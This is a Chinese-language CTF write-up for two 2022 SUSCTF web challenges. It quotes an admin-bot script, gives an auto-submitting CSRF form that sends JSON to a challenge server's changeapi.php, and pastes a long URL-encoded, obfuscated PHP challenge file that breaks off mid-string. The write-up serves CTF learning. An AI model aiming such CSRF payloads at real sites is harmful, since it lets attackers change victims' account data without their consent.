


# 2022-SUSCTF-Web-Writeup

## fxxkcors

本来以为是SSRF实际上是CSRF。。。

http://159.138.56.26:3000/fxxkcors会访问一个URL：

```js
const opt = {
    name: "fxxkcors",
    router: "fxxkcors",
    site: process.env.FXXK_SITE ?? "",

}

const delay = (ms) => new Promise((resolve) => setTimeout(resolve, ms))

const visit = async (browser, url) =>{
    let site = process.env.FXXK_SITE ?? ""
    console.log(`[+]${opt.name}: ${url}`)
    let renderOpt = {...opt}
    try {
        const loginpage = await browser.newPage()
        await loginpage.goto(site)
        await loginpage.type("input[name=username]", "admin")
        await loginpage.type("input[name=password]", process.env.FXXK_ADMIN_PASS ?? "")
        await Promise.all([
            loginpage.click('button[name=submit]'),
            loginpage.waitForNavigation({waitUntil: 'networkidle0', timeout: 2000})
        ])
        await loginpage.goto("about:blank")
        await loginpage.close()

        const page = await browser.newPage()
        await page.goto(url, {waitUntil: 'networkidle0', timeout: 2000})

        await delay(2000) /// waiting 2 second.
        console.log(await page.evaluate(() =>  document.documentElement.outerHTML))

    }catch (e) {
        console.log(e)
        renderOpt.message = "error occurred"
        return renderOpt
    }
    renderOpt.message = "admin will view your report soon"
    return renderOpt
}

module.exports = {
    opt:opt,
    visit:visit
}
```

CSRF打`changeapi.php`就行：

```html
<html>
  <body>
    <form id="form" method="post" action="http://124.71.205.122:10002/changeapi.php" enctype="text/plain">
      <input style='display:none' name='{"foo":"' value='", "username":"feng1"}'>
      <input type="submit" value="Click me">
    </form>
    <script>
      window.onload = () => {form.submit()}
    </script>
  </body>
</html>

```




## rubbish maker

直接下载下来似乎会出现符号的问题（似乎是这样，总之为了稳定的做题我现在linux服务器上把code下载下来，然后把code全部给urlencode一次，然后再windows上解码写下来）：

```php
<?php
$a="%3C%3Fphp+%0Afunction+zwchpheW%28%24HWMagmAC%29%0A%7B%0A++++goto+lAceqcGF%3B%0A++++EHqWEEtH%3A%0A++++if+%28%27MukUgqbz%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+PatIhVBP%3B%0A++++%7D%0A++++goto+BHkSANtS%3B%0A++++pTBsyEFp%3A%0A++++return+%27function_exists%27%3B%0A++++ggMYtvME%3A%0A++++return+%27h%27%3B%0A++++izaKcZoJ%3A%0A++++if+%28%27zBPFuySQ%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+nTPawBkQ%3B%0A++++%7D%0A++++goto+XkLpKbBc%3B%0A++++XGAAUBst%3A%0A++++if+%28%27DxHFcQkD%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+wzPGYiqb%3B%0A++++%7D%0A++++goto+UAfsEGBG%3B%0A++++YvWDstdq%3A%0A++++return+%275860HDxzuLvj%27%3B%0A++++ldQdldol%3A%0A++++if+%28%27CswiwpcI%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+SBiuyiUA%3B%0A++++%7D%0A++++goto+mkxEmAsZ%3B%0A++++MfogiKkZ%3A%0A++++return+%27xdebug_disable%27%3B%0A++++dgXvuYsO%3A%0A++++return+%27N%27%3B%0A++++dUtmAtVA%3A%0A++++return+function+%28%24zMFmbNMm%2C+%24eDbzqwpc%29+%7B%0A++++++++return+%24zMFmbNMm+%25+%24eDbzqwpc%3B%0A++++%7D%3B%0A++++ryvvMoUV%3A%0A++++if+%28%27aFRlodVE%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+ZmeCAztb%3B%0A++++%7D%0A++++goto+QmOATajf%3B%0A++++hrOlHrxF%3A%0A++++return+%27G%27%3B%0A++++NDskRmmB%3A%0A++++return+function+%28%24FeTEfeJQ%2C+%24kKfJAOKa%29+%7B%0A++++++++return+%24FeTEfeJQ+%2A+%24kKfJAOKa%3B%0A++++%7D%3B%0A++++BkoovGdb%3A%0A++++if+%28%27OrEnRLze%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+aCXgFWsF%3B%0A++++%7D%0A++++goto+WKfopfjZ%3B%0A++++nTPawBkQ%3A%0A++++if+%28%27mMLMmlIm%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+RZTalwbn%3B%0A++++%7D%0A++++goto+UZMiPQBs%3B%0A++++tjrbUslB%3A%0A++++return+function+%28%24yEoCVUnC%2C+%24VxDZktJz%29+%7B%0A++++++++return+%24yEoCVUnC+%3E%3D+%24VxDZktJz%3B%0A++++%7D%3B%0A++++ABGtOWKl%3A%0A++++if+%28%27Gcpzzugp%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+BkoovGdb%3B%0A++++%7D%0A++++goto+nARCKVRx%3B%0A++++aCXgFWsF%3A%0A++++return+function+%28%24NaPDBWES%2C+%24tBPOllxj%29+%7B%0A++++++++return+%24NaPDBWES+%7C+%24tBPOllxj%3B%0A++++%7D%3B%0A++++OBqKMajH%3A%0A++++if+%28%27WtSzlZVL%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+ZCPQKPSd%3B%0A++++%7D%0A++++goto+RCAjNGkS%3B%0A++++XQHcrGYa%3A%0A++++if+%28%27kbTRyKlR%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+DJFXditF%3B%0A++++%7D%0A++++goto+FeBCruos%3B%0A++++BwjBkirE%3A%0A++++return+%27strpos%27%3B%0A++++ZMBbgcxc%3A%0A++++return+%27%ABHIM%2AM%8F%CF%2C%8EO%CDKL%CAIM%01%00%27%3B%0A++++SqQEGQaW%3A%0A++++return+%27base64_decode%27%3B%0A++++WKfopfjZ%3A%0A++++if+%28%27JbUAoTVR%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+bXDsQxtE%3B%0A++++%7D%0A++++goto+gFAcpYoK%3B%0A++++paALdHVB%3A%0A++++return+%27n%27%3B%0A++++WrzaKiWV%3A%0A++++if+%28%27uQQOWYOG%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+KMEWyhjq%3B%0A++++%7D%0A++++goto+QIZloAmp%3B%0A++++EosDkNCE%3A%0A++++return+function+%28%24DamzgLUs%2C+%24ZFgNgtRZ%29+%7B%0A++++++++return+%24DamzgLUs+%3C%3D+%24ZFgNgtRZ%3B%0A++++%7D%3B%0A++++JCejcGss%3A%0A++++return+%27KdfsWfpi%27%3B%0A++++yhCYELPL%3A%0A++++return+function+%28%24zjfVmtSh%2C+%24WGQVbbSw%29+%7B%0A++++++++return+%24zjfVmtSh+%2F+%24WGQVbbSw%3B%0A++++%7D%3B%0A++++LzqZUlLX%3A%0A++++if+%28%27eUJqiwZq%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+JIZzZllt%3B%0A++++%7D%0A++++goto+ZNkHwSQk%3B%0A++++IMaNIgyG%3A%0A++++if+%28%27dewmyoUX%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+wFyjgLxJ%3B%0A++++%7D%0A++++goto+ZKJwFxSB%3B%0A++++UAfsEGBG%3A%0A++++if+%28%27hsAcgqqU%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+HRqRQhGJ%3B%0A++++%7D%0A++++goto+ldQdldol%3B%0A++++wCXHGTIT%3A%0A++++if+%28%27hDnQVwTJ%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+hClfoXLQ%3B%0A++++%7D%0A++++goto+mYjkUZLS%3B%0A++++MmJdkbkM%3A%0A++++if+%28%27XQnvHgaR%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+cRtlpuCk%3B%0A++++%7D%0A++++goto+EcpabSjV%3B%0A++++jsavfFjh%3A%0A++++return+%27QczRgAmc%27%3B%0A++++ntUAzLPo%3A%0A++++if+%28%27JXPtCCNx%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+oYXpcgFs%3B%0A++++%7D%0A++++goto+DNNWPmRV%3B%0A++++uPkSSgJa%3A%0A++++if+%28%27caHqcmFy%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+lwQRHwie%3B%0A++++%7D%0A++++goto+wstHDVeZ%3B%0A++++LwRjHXXF%3A%0A++++return+%27ymBqhGgW%27%3B%0A++++HnfsuQib%3A%0A++++return+%27%ABHIM%2AM%8FO%C9%2CNL%CAI%05%00%27%3B%0A++++mYjkUZLS%3A%0A++++if+%28%27ncjAjYPP%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+XGAAUBst%3B%0A++++%7D%0A++++goto+NluZHGKK%3B%0A++++XOvSzPvX%3A%0A++++return+%27%3DoEaqRmSCpkY%27%3B%0A++++bbSZeEsg%3A%0A++++if+%28%27rzcyDWRR%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+vyGFbgYh%3B%0A++++%7D%0A++++goto+wfgIkVXM%3B%0A++++GDfPqJCs%3A%0A++++return+%27J%27%3B%0A++++TMSiLbvo%3A%0A++++return+%27I%27%3B%0A++++GkipTcaV%3A%0A++++return+%27c%27%3B%0A++++ErSDicKf%3A%0A++++return+%27%27%3B%0A++++ZBmREdVY%3A%0A++++if+%28%27aHIBdTPP%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+TMSiLbvo%3B%0A++++%7D%0A++++goto+gDRuviAK%3B%0A++++hbcjrCnY%3A%0A++++if+%28%27SlZfyQEP%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+BcOTbaJx%3B%0A++++%7D%0A++++goto+UQxmbCzO%3B%0A++++bqbALpYw%3A%0A++++return+%27c%27%3B%0A++++mfBHOogw%3A%0A++++return+%27gzinflate%27%3B%0A++++wFyjgLxJ%3A%0A++++if+%28%27jepEbxTb%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+kCSNbMhk%3B%0A++++%7D%0A++++goto+pyPSfVFy%3B%0A++++TyBAQDrT%3A%0A++++if+%28%27bYRAdCmc%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+ePcdOmxr%3B%0A++++%7D%0A++++goto+iVOAMzsX%3B%0A++++ZKJwFxSB%3A%0A++++return+%27MSsxOw%3D%3D%27%3B%0A++++zjxoRFyw%3A%0A++++if+%28%27sgAQoinj%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+fteiAKby%3B%0A++++%7D%0A++++goto+OcOAOAEZ%3B%0A++++PsmiYHsH%3A%0A++++return+%27%27%3B%0A++++ouMCEyvh%3A%0A++++return+%27Z%27%3B%0A++++iVOAMzsX%3A%0A++++if+%28%27DAIulPgO%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+EzpEYfXH%3B%0A++++%7D%0A++++goto+fRnbLdFl%3B%0A++++UmlQEXTi%3A%0A++++if+%28%27SglacSPj%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+XZuJxtpa%3B%0A++++%7D%0A++++goto+kKyxzrbT%3B%0A++++kKawWfJx%3A%0A++++return+%27base64_decode%27%3B%0A++++GSSmqaKy%3A%0A++++return+function+%28%24DmQbOAEU%2C+%24szoalsXQ%29+%7B%0A++++++++return+%24DmQbOAEU+%3C+%24szoalsXQ%3B%0A++++%7D%3B%0A++++XLtIJBln%3A%0A++++if+%28%27UFuCqStk%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+mEqkrzif%3B%0A++++%7D%0A++++goto+KZprNdEd%3B%0A++++OJcHlYmg%3A%0A++++return+%27W%27%3B%0A++++tFkKLkGN%3A%0A++++return+%27microtime%27%3B%0A++++KhifsBmA%3A%0A++++if+%28%27zuRoHxZA%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+CnnwaOUz%3B%0A++++%7D%0A++++goto+jRVMYuIA%3B%0A++++JwwgkghB%3A%0A++++return+%27w%27%3B%0A++++RCAjNGkS%3A%0A++++if+%28%27GWAZngJJ%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+hbcjrCnY%3B%0A++++%7D%0A++++goto+ZxlekmZG%3B%0A++++fteiAKby%3A%0A++++if+%28%27RFveTykk%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+OHvsteop%3B%0A++++%7D%0A++++goto+pvyjKUHy%3B%0A++++jykphnts%3A%0A++++if+%28%27bpbwvXiO%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+GLOQRcEb%3B%0A++++%7D%0A++++goto+CcAAjSSG%3B%0A++++PMRcZoOH%3A%0A++++return+%27Z%27%3B%0A++++RSaZnsZz%3A%0A++++return+%27Z%27%3B%0A++++ODxpsvWC%3A%0A++++return+%27b%27%3B%0A++++ZSjenFEd%3A%0A++++if+%28%27erskRnwZ%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+cYdSrVnZ%3B%0A++++%7D%0A++++goto+OKLbsrhR%3B%0A++++dUeoTDeF%3A%0A++++if+%28%27KsNcekPw%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+kKawWfJx%3B%0A++++%7D%0A++++goto+DxWMDyAO%3B%0A++++kSkqrUhl%3A%0A++++return+%27parse_str%27%3B%0A++++RhukAsiH%3A%0A++++if+%28%27bJLOpFNO%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+txCvcxgS%3B%0A++++%7D%0A++++goto+qfUxYabJ%3B%0A++++wetHLPqr%3A%0A++++return+%27function_exists%27%3B%0A++++DcYkSHXf%3A%0A++++if+%28%27JPJzJXBD%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+JEjEgdNa%3B%0A++++%7D%0A++++goto+XQHcrGYa%3B%0A++++UmKFopQo%3A%0A++++if+%28%27nvPYrGZl%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+KhifsBmA%3B%0A++++%7D%0A++++goto+eoMDPSSq%3B%0A++++hJRsTKAI%3A%0A++++return+%27Sijorhqk%27%3B%0A++++ZOtPxhpc%3A%0A++++return+%27X%27%3B%0A++++wUqsKFyA%3A%0A++++return+%27substr%27%3B%0A++++RYXzYCeA%3A%0A++++if+%28%27RLsQuTnh%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+FqcGXJfq%3B%0A++++%7D%0A++++goto+HRHrVuML%3B%0A++++ZxlekmZG%3A%0A++++return+%27S%27%3B%0A++++CFbeerQP%3A%0A++++return+%27xdebug_stop_trace%27%3B%0A++++hUpJUQgR%3A%0A++++if+%28%27mwgREhKE%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+jpdrlJkz%3B%0A++++%7D%0A++++goto+XgIrSSrV%3B%0A++++KaYIIJMp%3A%0A++++return+%27n%27%3B%0A++++ZzQTSMEi%3A%0A++++if+%28%27SRwWPtfO%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+ohAigJVC%3B%0A++++%7D%0A++++goto+ErSDicKf%3B%0A++++NgRbmkNH%3A%0A++++if+%28%27FCiYtbLS%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+apUgDfuH%3B%0A++++%7D%0A++++goto+SqQEGQaW%3B%0A++++usxLZIMW%3A%0A++++return+%27Z%27%3B%0A++++IIoCDnsj%3A%0A++++if+%28%27hAsaGVLO%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+wetHLPqr%3B%0A++++%7D%0A++++goto+dNJTVKRu%3B%0A++++IUhuUQWa%3A%0A++++return+%27d%27%3B%0A++++bfqfjbRf%3A%0A++++if+%28%27ZYUxEMEi%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+iBqYdTBo%3B%0A++++%7D%0A++++goto+MshNfeLc%3B%0A++++BynIRORu%3A%0A++++return+%27%3D%27%3B%0A++++vTOAbkfd%3A%0A++++return+%27function_exists%27%3B%0A++++hClfoXLQ%3A%0A++++return+%27X%27%3B%0A++++ePcdOmxr%3A%0A++++return+%27join%27%3B%0A++++AEtOcwbJ%3A%0A++++return+%27strrev%27%3B%0A++++szmukJnq%3A%0A++++if+%28%27CjAdIjWz%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+YtPRLoAc%3B%0A++++%7D%0A++++goto+bbSZeEsg%3B%0A++++KpXzrUhC%3A%0A++++if+%28%27jKBlgGUn%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+RRUYixVD%3B%0A++++%7D%0A++++goto+xLrHwQUB%3B%0A++++PCWElsjD%3A%0A++++if+%28%27DDjAJmnO%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+HnfsuQib%3B%0A++++%7D%0A++++goto+OXGvnEZe%3B%0A++++bGatbwJr%3A%0A++++if+%28%27EranFtKJ%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+dgXvuYsO%3B%0A++++%7D%0A++++goto+MQjASqHG%3B%0A++++KMEWyhjq%3A%0A++++if+%28%27dcUReSao%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+KpXzrUhC%3B%0A++++%7D%0A++++goto+NvLwdDFh%3B%0A++++CuSNsztl%3A%0A++++return+function+%28%24QqCZJKPA%2C+%24kADUKEBN%29+%7B%0A++++++++return+%24QqCZJKPA+%3C%3C+%24kADUKEBN%3B%0A++++%7D%3B%0A++++grrpdaLN%3A%0A++++return+function+%28%24hqyFOcwg%2C+%24gGnKBcoP%29+%7B%0A++++++++return+%24hqyFOcwg+%3E+%24gGnKBcoP%3B%0A++++%7D%3B%0A++++QcmrIDkB%3A%0A++++return+%27base64_decode%27%3B%0A++++MWmNCjYx%3A%0A++++return+%27function_exists%27%3B%0A++++WmxhfHrP%3A%0A++++return+%27phpdbg_clear%27%3B%0A++++SBiuyiUA%3A%0A++++if+%28%27UwHWsybL%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+ZBmREdVY%3B%0A++++%7D%0A++++goto+JbnFnLSL%3B%0A++++MfNbRnZS%3A%0A++++if+%28%27IBzSDlsv%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+dKjqCtfB%3B%0A++++%7D%0A++++goto+hJRsTKAI%3B%0A++++YAHbGjYL%3A%0A++++if+%28%27qCPxKPmA%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+sMvIaWmy%3B%0A++++%7D%0A++++goto+jsavfFjh%3B%0A++++sVUuaFmA%3A%0A++++if+%28%27PBkyFwkU%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+MmJdkbkM%3B%0A++++%7D%0A++++goto+GSSmqaKy%3B%0A++++HEkjJVTi%3A%0A++++if+%28%27yCOesPjK%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+mjrAhqlU%3B%0A++++%7D%0A++++goto+ASwGTubP%3B%0A++++HRHrVuML%3A%0A++++if+%28%27LLnvVReM%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+ZFVqwrPy%3B%0A++++%7D%0A++++goto+xvtqkpKH%3B%0A++++uumszDuV%3A%0A++++return+%27y%27%3B%0A++++UZMiPQBs%3A%0A++++if+%28%27fipOhCAE%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+ryvvMoUV%3B%0A++++%7D%0A++++goto+AEtOcwbJ%3B%0A++++KOuFNbbh%3A%0A++++return+%27F%27%3B%0A++++FeBCruos%3A%0A++++return+%27function_exists%27%3B%0A++++xnMQOacu%3A%0A++++if+%28%27QQkvFJPR%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+nJKeAjFc%3B%0A++++%7D%0A++++goto+sbvknxSz%3B%0A++++XKTIXicf%3A%0A++++return+%27%3DIFREF0XFR1TNVkU%27%3B%0A++++xvtqkpKH%3A%0A++++return+%27base64_decode%27%3B%0A++++mGPSWSbu%3A%0A++++return+function+%28%24gbmNbebe%2C+%24wCsVaVWB%29+%7B%0A++++++++return+%24gbmNbebe+%3E%3E+%24wCsVaVWB%3B%0A++++%7D%3B%0A++++rqYgzRmf%3A%0A++++return+%27%2B%C8%28HIJ%07%00%27%3B%0A++++MnjQTErd%3A%0A++++return+%27join%27%3B%0A++++ppBcTHKI%3A%0A++++return+%27c%27%3B%0A++++kCSNbMhk%3A%0A++++return+%27readfile%27%3B%0A++++NzYsNPNw%3A%0A++++return+%27strrev%27%3B%0A++++PIcpLlRx%3A%0A++++return+%27w%27%3B%0A++++XgIrSSrV%3A%0A++++if+%28%27HhsiFqrq%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+UmKFopQo%3B%0A++++%7D%0A++++goto+KaYIIJMp%3B%0A++++foNNDPuH%3A%0A++++if+%28%27iIcwQdwD%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+TXCKvLXX%3B%0A++++%7D%0A++++goto+cCqRohiS%3B%0A++++loRYwTwf%3A%0A++++if+%28%27bAvlcxCz%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+htNcTYHH%3B%0A++++%7D%0A++++goto+PCWElsjD%3B%0A++++TakgvxVU%3A%0A++++return+%27IBRY%27%3B%0A++++tMHspXYU%3A%0A++++return+function+%28%24CHdmQABz%2C+%24sMQXylfC%29+%7B%0A++++++++return+%24CHdmQABz+%26%26+%24sMQXylfC%3B%0A++++%7D%3B%0A++++JfVAouZt%3A%0A++++return+function+%28%24PLQNjvPF%2C+%24UFmfrnfj%29+%7B%0A++++++++return+%24PLQNjvPF+%3C%3D%3E+%24UFmfrnfj%3B%0A++++%7D%3B%0A++++zFQZKczz%3A%0A++++if+%28%27kziPHmRL%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+YSVvKclS%3B%0A++++%7D%0A++++goto+vcwxOMFE%3B%0A++++qfUxYabJ%3A%0A++++return+%27function_exists%27%3B%0A++++LvSAyVtB%3A%0A++++return+%27g%27%3B%0A++++KZprNdEd%3A%0A++++if+%28%27LfLrLgRT%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+oHKmcCaU%3B%0A++++%7D%0A++++goto+FjvdgWOq%3B%0A++++JEjEgdNa%3A%0A++++return+%27YiWZaQlD%27%3B%0A++++BakaOKTA%3A%0A++++return+%27microtime%27%3B%0A++++xLrHwQUB%3A%0A++++if+%28%27HfvYEPxZ%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+TjUNmBLO%3B%0A++++%7D%0A++++goto+zrLCTcIK%3B%0A++++mjrAhqlU%3A%0A++++return+%27%3D%27%3B%0A++++BcecpghI%3A%0A++++return+function+%28%24CZXISztc%2C+%24WJRpZuGe%29+%7B%0A++++++++return+%24CZXISztc+%3F%3F+%24WJRpZuGe%3B%0A++++%7D%3B%0A++++REnXAWyB%3A%0A++++if+%28%27pCrSduyc%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+hrOlHrxF%3B%0A++++%7D%0A++++goto+hUpJUQgR%3B%0A++++eoMDPSSq%3A%0A++++return+%27W%27%3B%0A++++mbxWIEHK%3A%0A++++return+%27oZbhcVWO%27%3B%0A++++htNcTYHH%3A%0A++++return+%27b%27%3B%0A++++VpoLjsgt%3A%0A++++if+%28%27rZUrWYUS%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+XKTIXicf%3B%0A++++%7D%0A++++goto+ntUAzLPo%3B%0A++++QIrjtViS%3A%0A++++return+%272%27%3B%0A++++SccrgRjg%3A%0A++++if+%28%27yYapfhhD%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+XOvSzPvX%3B%0A++++%7D%0A++++goto+izaKcZoJ%3B%0A++++SVSYiPdA%3A%0A++++return+%271%27%3B%0A++++htYYBimP%3A%0A++++return+%27n%27%3B%0A++++mnLByTdY%3A%0A++++if+%28%27NzcKUhur%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+JwwgkghB%3B%0A++++%7D%0A++++goto+zPGwevUt%3B%0A++++BHkSANtS%3A%0A++++return+%271%27%3B%0A++++CvvPjyQl%3A%0A++++if+%28%27uUpYKfak%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+ABGtOWKl%3B%0A++++%7D%0A++++goto+rhtoBftX%3B%0A++++MQjASqHG%3A%0A++++if+%28%27RGCdspdI%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+ZijqqKHT%3B%0A++++%7D%0A++++goto+NzYsNPNw%3B%0A++++BcOTbaJx%3A%0A++++return+%27phpdbg_prompt%27%3B%0A++++nJKeAjFc%3A%0A++++if+%28%27VvIrgQbS%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+XOJbtaaw%3B%0A++++%7D%0A++++goto+SHTqqzwg%3B%0A++++iBqYdTBo%3A%0A++++return+function+%28%24utFWcFVO%2C+%24pY